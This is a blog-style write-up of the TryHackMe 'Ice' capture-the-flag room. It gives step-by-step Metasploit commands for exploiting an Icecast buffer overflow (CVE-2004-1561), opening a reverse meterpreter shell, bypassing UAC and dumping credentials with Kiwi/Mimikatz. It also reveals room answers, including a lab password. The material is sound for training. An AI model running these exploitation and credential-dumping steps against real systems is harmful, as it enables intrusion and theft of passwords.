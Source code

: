 ```yaml
---
layout: blog
title: THM Ice Writeup
publishDate: 2023-12-08T17:12:00.000Z
description: A step-by-step walk-through of the TryHackMe CTF room - Ice. Its
  based on CVE-2004-1561, a buffer overflow vulnerability on Icecast, a
  multimedia streaming service.
tags:
  - tryhackme
  - writeup
---
```

## Task 1: Connect

I use OpenVPN to connect to THM servers. You can also download your OpenVPN configuration from https://tryhackme.com/access and connect using this command:

```sh
sudo openvpn <your-config>.ovpn
```

Then, click on the green "Start Machine" button to initiate the target machine. It takes about a minute to start up.

## Task 2: Recon

The first task is always to scan the target. In order to find all the open ports, you can run a TCP SYN scan (using the `-sS` flag in nmap). Check the Nmap output and find which port is running the MSRDP service. It won't be listed as MSRDP or Microsoft Remote Desktop something, but if you look carefully, you'll find a "ms-wbt-server" service running on port 3389.

![Running services](/images/uploads/pasted-image-20231208172254.png)

A quick google search can confirm your suspicions. 

![MS WBT server google search result](/images/uploads/pasted-image-20231208172316.png)

The next question asks you what service is running on port 8000. Well it is http but the the correct answer should be the name of the service which will be shown only if you run a version scan using the `-sV` flag as you can see below. It is "Icecast" - a popular media streaming server.

![Icecast service running on TCP port 8000](/images/uploads/pasted-image-20231208172703.png)

The host name of the machine can be found in the output of a script scan (use the `-sC` flag). The hostname is listed as the "NetBIOS name" in the "Host script results" section of the nmap output. The answer is "DARK-PC".

![Nmap host detection result](/images/uploads/pasted-image-20231208173319.png)

## Task 3: Gain Access

The exact answer to the first question could not be found on the mentioned cvedtails.com website as the website design and layout has been updated since. Visit the website and search for "Icecast" vulnerabilities. You can filter by the rating of 7 or higher. Most of the vulnerabilities will show the type "Buffer Overflow" but the correct answer should be "Execute Code Overflow" (this used to be shown under the Vulnerability type field earlier).

![CVEs of the running version of Icecast](/images/uploads/pasted-image-20231209094114.png)

The CVE that I used is [CVE-2004-1561](https://www.cvedetails.com/cve/CVE-2004-1561/ "CVE-2004-1561 security vulnerability details") as its the only one having a public exploit. Run metasploit and search for "icecast" modules.

![Find the exploit in metasploit](/images/uploads/pasted-image-20231209095846.png)

Only one module should be listed: `exploit/windows/http/icecast_header`
Use the module and check the required options that we need to set. 

![Setting RHOSTS value in metasploit](/images/uploads/pasted-image-20231209095943.png)

RHOSTS specifies the remote hosts, *i.e.*, the target machine IP. Use the command `set RHOSTS <TARGET_IP>` to set the value. By default, LHOST, or the local host (your IP) should be set to eth0 or wlan0 depending on the interface you are using. But, since you're connected to the tryhackme VPN, you should change it to tun0 using `set LHOST tun0` command. Then you can `run` the exploit.

## Task 4: Escalate

If the exploit runs successfully, you'll get a "meterpreter" shell. Run the command `getuid` to check if you are logged in as the user "Dark". We can also gather some more information about the system, for example, the build version and architecture by running the `sysinfo` command.

Run the module `run post/multi/recon/local_exploit_suggester` to find local exploits in the system. We will use the first exploit:

```sh
use exploit/windows/local/bypassuac_eventvwr
```

![Find local exploits after gaining meterpreter shell](/images/uploads/pasted-image-20231209100744.png)

Check the required options in the local exploit. Set the session to 1 (you can check the meterpreter session number using the command `sessions`), and the LHOST to tun0 (if you are using VPN). Now run the exploit.

To verify that we got the escalated shell, run `getprivs`. As you can see we have the access to take ownership of files:

![Output of the getprivs command](/images/uploads/pasted-image-20231209101129.png)

## Task 5: Looting

Before we do anything else, we should migrate to a more stable process. Run the `ps` command and find a process that matches our architecture (x64) and is run by NT AUTHORITY\SYSTEM. The most commonly used process (that always works!) is `spoolsv.exe`.

```sh
migrate -N spoolsv.exe
```

We will use Kiwi (the updated version of Mimikatz), a password dumping tool to retrieve the user password. 

```sh
load kiwi
```

After the tool is loaded, check the meterpreter `help` menu to find the newly added section for Kiwi. Run the `creds_all` command to find the password of the user Dark: `Password01!`.

![Find password of the user Dark using the creds_all command](/images/uploads/pasted-image-20231209101654.png)

## Task 6: Post Exploitation

The questions in this section are straightforward. I won't be sharing the answers as you can easily get them from the meterpreter help menu. You can play around a bit if you want.

Tip: Run the `screenshare` command to get a live view of the remote desktop :)
